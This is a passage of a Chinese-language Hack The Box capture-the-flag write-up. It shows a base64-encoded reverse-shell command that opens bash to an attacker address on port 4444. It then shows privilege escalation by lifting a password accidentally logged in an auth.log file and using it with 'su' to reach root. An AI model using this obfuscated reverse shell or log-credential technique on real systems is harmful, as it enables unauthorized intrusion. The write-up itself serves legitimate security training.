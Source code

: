 ```json
"uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)"
```

成功执行 `id` 命令，下一步我们尝试反弹 shell

这里由于涉及 url 编码问题，我们使用 base64 编码的方式传递命令

```bash
echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yLzQ0NDQgMD4mMSI= | base64 -d |bash
```

```bash
htb@backend:~/uhc$ whoami
htb
htb@backend:~/uhc$ pwd
/home/htb/uhc
htb@backend:~/uhc$ id
uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

这里可以优化一下反向 shell，为其添加 TTY，可以参考 [为 Reverse Shell 添加 TTY](https://blog.iselt.top/post/tty-shell/)

## 提权

先信息收集一波，看看文件

发现了一个 `auth.log`

```bash
htb@backend:~/uhc$ cat auth.log
04/21/2024, 10:42:25 - Login Success for admin@htb.local
04/21/2024, 10:45:45 - Login Success for admin@htb.local
04/21/2024, 10:59:05 - Login Success for admin@htb.local
04/21/2024, 11:02:25 - Login Success for admin@htb.local
04/21/2024, 11:07:25 - Login Success for admin@htb.local
04/21/2024, 11:10:45 - Login Success for admin@htb.local
04/21/2024, 11:24:05 - Login Success for admin@htb.local
04/21/2024, 11:32:25 - Login Success for admin@htb.local
04/21/2024, 11:34:05 - Login Success for admin@htb.local
04/21/2024, 11:40:45 - Login Success for admin@htb.local
04/21/2024, 11:49:05 - Login Failure for Tr0ub4dor&3
04/21/2024, 11:50:40 - Login Success for admin@htb.local
04/21/2024, 11:50:45 - Login Success for admin@htb.local
04/21/2024, 11:51:05 - Login Success for admin@htb.local
04/21/2024, 11:52:25 - Login Success for admin@htb.local
04/21/2024, 11:57:25 - Login Success for admin@htb.local
04/21/2024, 12:04:05 - Login Success for admin@htb.local
04/21/2024, 12:53:33 - Login Failure for admin
04/21/2024, 13:06:28 - Login Success for test@test.com
04/21/2024, 13:28:12 - Login Success for admin@htb.local
04/21/2024, 13:51:32 - Login Success for admin@htb.local
04/21/2024, 13:52:14 - Login Success for admin@htb.local
```

其中有一个 `Login Failure for Tr0ub4dor&3` 的记录，这里本该是用户名，但却出现了疑似密码的字符串，我们尝试使用这个字符串进行提权

```bash
htb@backend:~/uhc$ su -
Password:Tr0ub4dor&3
root@backend:~# cat ~/root.txt
...
```

成功提权
